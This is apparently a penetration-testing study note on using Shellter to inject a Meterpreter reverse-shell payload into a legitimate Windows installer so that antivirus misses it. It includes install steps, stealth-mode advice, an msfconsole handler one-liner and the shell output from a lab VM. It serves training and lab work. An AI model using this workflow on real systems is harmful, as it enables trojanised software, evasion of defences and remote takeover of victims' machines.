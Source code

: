 ```yaml
---
aliases:
  - shellter
---
```


# Automating Antivirus Evasion
One of the most popular tools for automating [antivirus](README.md) evasion is [Shellter](https://www.shellterproject.com/homepage/). It does this by creating *backdoors* into non-malicious executable files where malicious payload can be injected. Shellter takes a valid [PE](../../computers/windows/PE.md), does a *thorough analysis* of it and its execution paths, and then determines where in the execution *a malicious payload can be injected*.

Shellter uses *non-conventional* techniques to inject shellcode, which allows it to bypass detection by most AV products. Additionally, it uses the PE *[Import Table](../../computers/windows/PE.md#Import%20Table)* to find functions in the PE which are used for *memory allocation, transfer, and execution*. 
## Use
### Installation
(on Kali)
```bash
apt-cache search shellter
shellter - Dynamic shellcode injection tool and dynamic PE infector

sudo apt install shellter
...
```
 Shellter is designed to run on [Windows](../../computers/windows/README.md) operating systems, so you should also install [wine](https://www.winehq.org/) (which lets us run Win32 applications on POSIX operating systems). 
 ```bash
sudo apt install wine
...

sudo dpkg --add-architecture i386 && apt-get update &&
apt-get install wine32
```
### Manual vs Auto Mode
When we run shellter in the command line, we get a new console (running under wine). Once it starts up, it asks whether we want to run in Auto or Manual mode. 
#### Manual Mode
In manual mode the tool launches the PE we give it and lets us manipulate it ourselves. In manual mode, we can customize the injection process.
#### Auto Mode
In auto mode, shellter does most of the injection work for us. 
### Choosing a PE
We need to select a target PE. This is the PE shellter is going to inject into and which we will deliver to the victim (once modified by shellter). [According to Shellter's author](https://www.shellterproject.com/an-important-tip-for-shellter-usage/), it's better to choose new and *less scrutinized applications*. For example, lets us the Windows 32bit installer for Spotify.

Once we give the path to our PE, shellter *makes a backup of it*, then it will analyze it for a suitable place it its execution to inject some malicious code.
### Stealth Mode
Once shellter has found a place, shellter asks if we want to enable *Stealth Mode*. In stealth mode, shellter will try to *restore the execution flow* of the PE after our payload has been executed. We should enable this *especially if a victim is executing the PE*. If it just crashes after our payload executes, that could raise some red flags.
### Payloads
Now shellter will ask us to choose a payload for the injection. You can either choose one of the *popular options* or you can choose to inject a *custom payload*. 
![](../oscp-pics/automating-evasion-1.png)
Let's select the first one. Then shellter will ask for the default options from Metasploit (`LHOST` and `LPORT`). We should set theses to our Kali attacking box [IP address](../../networking/OSI/3-network/IP-addresses.md) and a listening port.
### Testing
After setting all of the parameters, Shellter will inject our payload into the PE and then attempt to reach the payload's *first instruction*. During this phase, Shellter warns that if the PE *spawns a child process* before the injection point, then *our injected payload will be in the child process* and Shellter won't be able to tell if the test succeeded or not.
![](../oscp-pics/automating-evasion-2.png)
### Execution
Once our test succeeds, we should *configure the listener* on our attacking box. We can use [`msfconsole`](../../cybersecurity/TTPs/exploitation/tools/metasploit.md#`msfconsole`) for that:
```bash
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"
...
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_tcp
LHOST => 192.168.50.1
LPORT => 443
[*] Started reverse TCP handler on 192.168.50.1:443
```
Once that's up and listening, we can transfer our malicious PE to the victim system (in this case our Windows VM with the AV product we [tested against](testing-for-evasion.md)). Once it's there, run another quick scan with the Antivirus System (we tested against Avira). 

If our PE isn't detected, then we can run it by double clicking it in the VM. We should look out for two things:
1. Our reverse shell connection on our listener (`msfconsole`)
2. If the PE continues its regular, non-malicious execution after we get the reverse shell (since we told Shellter to use Stealth Mode and return the execution flow to the original PE after executing our payload). 
Our reverse shell output on the listener should look something like this:
```bash
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"
...
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_tcp
LHOST => 192.168.50.1
LPORT => 443
[*] Started reverse TCP handler on 192.168.50.1:443
[*] Sending stage (175174 bytes) to 192.168.50.62
[*] Meterpreter session 1 opened (192.168.50.1:443 -> 192.168.50.62:52273)...

meterpreter > shell
Process 6832 created.
Channel 1 created.
Microsoft Windows [Version 10.0.22000.739]
(c) Microsoft Corporation. All rights reserved.

C:\Users\offsec\Desktop>whoami
whoami
client01\offsec
```

> [!Resources]
> - [Shellter](https://www.shellterproject.com/homepage/)
> - [wine](https://www.winehq.org/) 
> - [Shellter: An important tip for Shellter Usage](https://www.shellterproject.com/an-important-tip-for-shellter-usage/)
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.
